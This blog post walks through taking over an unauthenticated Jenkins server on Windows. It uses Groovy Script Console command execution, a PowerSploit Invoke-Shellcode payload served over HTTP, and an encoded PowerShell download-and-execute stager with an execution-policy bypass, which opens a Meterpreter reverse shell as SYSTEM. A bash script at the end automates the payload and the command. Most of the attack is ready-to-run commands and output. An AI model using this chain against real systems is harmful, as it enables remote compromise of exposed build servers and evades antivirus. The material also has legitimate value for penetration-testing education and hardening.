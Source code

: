```yaml
---
categories:
- powershell
- meterpreter
- jenkins
- command execution
comments: true
date: 2015-05-27T20:40:40Z
title: jenkins to meterpreter toying with powersploit
---
```


{{< figure src="/images/jenkins_logo.png" >}}

Recently I came across a few [Jenkins](https://jenkins-ci.org/) continuous integration servers. A relatively old version I might add but that fact was not important. What was important though was the fact that it was not configured to be *'secure'*. Right out of the box Jenkins does not require any authentication to make use of it. In fact, it seems like its almost plug and play.
<!--more-->

## groooooooovy
At first glance I was not too sure about what opportunities I was presented with when finding this. Poking around through the web interface eventually got me to the *Script Console* that Jenkins provides:

{{< figure src="/images/jenkins_script_console.png" >}}

This looked promising. *'Type in an arbitrary Groovy script and execute it on the server.'* I had zero idea what Groovy Script was so to the le-Googles it was. Some research revealed that it is actually possible to execute commands using it. In fact, the syntax was quite expressive as explained in the [documentation](http://www.groovy-lang.org/groovy-dev-kit.html#process-management).

```text
def process = "ls -l".execute()
println "Found text ${process.text}"
```

The documentation goes into enough detail explaining the different options you have to execute commands, but the above snippet was enough to get going. To help with testing, I setup a local instance of the latest Jenkins (v1.615) and ran the Groovy Script. Remember, I was able to do this without any authentication requirement!

{{< figure src="/images/jenkins_console_command_exec.png" >}}

Nice and easy command execution! :D

## interactive shell, power shell
Getting an interactive shell on linux based hosts was as simple as picking your favorite flavor of [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and moving on from there. On Windows based environments though, the builtin `cmd.exe` definitely has its limitations. For this reason, reaching out for a meterpreter shell is almost a knee-jerk reaction.

The one Jenkins machine that I had found was running on Windows as `nt authority\system`, which of course was *great* news! I figured though that in order to get a meterpreter shell, I'd have to approach this in some conventional way. Either obtaining credentials somehow and launching it with say the metasploit SMB PSExec, or uploading an .exe somehow and executing that. Some investigations showed though that the AV on the box was killing the meterpreter.exe on the box so that option was out as well. So, next on the list? I could just make use of `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit) to download and execute one using one command.

Admittedly, I have never actually done this so a little Google-fu and research was needed to get it working right, but eventually this payed off.

In essence, getting the meterpreter shell up required 2 things (apart from the command execution). A `payload` which includes the `Invoke-Shellcode.ps1` powershell script together with the meterpreter connection details, and an encoded powershell command to be executed using the command execution we have. Together these will download the hosted payload and prepare the meterpreter. If this sounds a little confusing, don't worry it should be more clear after we have gone through it.

## preparing the payload
As already mentioned, I was going to use `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit). This will go into the payload that needs to be downloaded to bring the meterpreter up. When talking about *payload* here, all it really is is a file that will be made available via HTTP for the powershell script to download.

The payload will consist of 2 parts. First, defining `function Invoke-Shellcode {}`, and then invoking the function for a `windows/meterpreter/reverse_https` shell. Kali Linux has powersploit available in `/usr/share` so all I really did was cat it to my `payload` file:

```bash
$ cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
```

After that, I added the following line to the `payload` file which will invoke the introduced function and connect the meterpreter. My listener was on 192.168.252.1 on port 443:

```bash
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.252.1 -Lport 443 -Force
```

This file was finally served via HTTP using the python SimpleHTTPServer with `python -m SimpleHTTPServer` which meant that it would be available at http://192.168.252.1:8000/payload.

## preparing the command
Next, we need to prepare the actual command to run. We will make use of the powershell [Invoke-Expression](https://technet.microsoft.com/en-us/library/hh849893.aspx) command and give it a [Net.WebClient.DownloadString](https://msdn.microsoft.com/en-us/library/ms144200(v=vs.110.aspx) object to download the payload we previously prepared and execute it.

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')
```

That whole command needs to be [encoded](http://blogs.msdn.com/b/timid/archive/2014/03/26/powershell-encodedcommand-and-round-trips.aspx) so that, using the command injection, we can run powershell and not worry about escaping and things like that. I found some snippets online to help with this.

```bash
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
```

The above will output a base64 encoded string that should be passed to the Powershell `-Enc` flag for execution. The last hurdle to overcome was a potential execution policy. The tl;dr of this is that it can be bypassed by simply passing `-Exec ByPass` to the powershell executable. So, in summary, the command will be as follows:

```powershell
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4 [snip] BjBkACcAKQAKAA==
```

## pwn
So, I now had the `payload` file available for download via HTTP, and the command I needed to run. The last thing I had to do was setup a reverse_https listener in metasploit and run the command!

{{< figure src="/images/jenkins_powershell_payload.png" >}}

From the python web server we can see the request come in for the payload:

```text
192.168.252.100 - - [28/May/2015 12:37:15] "GET /payload HTTP/1.1" 200 -
```

And pop!

```bash
msf exploit(handler) > exploit

[*] Started HTTPS reverse handler on https://0.0.0.0:443/
[*] Starting the payload handler...
[*] 192.168.252.100:54023 Request received for /INITM...
[*] 192.168.252.100:54023 Staging connection for target /INITM received...
[*] Meterpreter session 1 opened (192.168.252.1:443 -> 192.168.252.100:54023) at 2015-05-28 12:37:17 +0200

meterpreter >
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## automation
While testing this, I slapped together a small script that will prepare the command to run and start the SimpleHTTPServer:

```bash
#!/bin/bash

# meterpreter ip & port
lhost=192.168.252.1
lport=443

echo " * Writing Payload"
cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
echo "Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost $lhost -Lport $lport -Force" >> payload

echo " * Prepping Command"
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://$lhost:8000/payload')"
echo $scriptblock

echo
echo " * Encoding command"
encode="`echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0`"
echo $encode

command="cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc $encode"
echo
echo " * Final command"
echo $command

echo
echo " * Starting HTTP Server to serve payload"
python -m SimpleHTTPServer
```
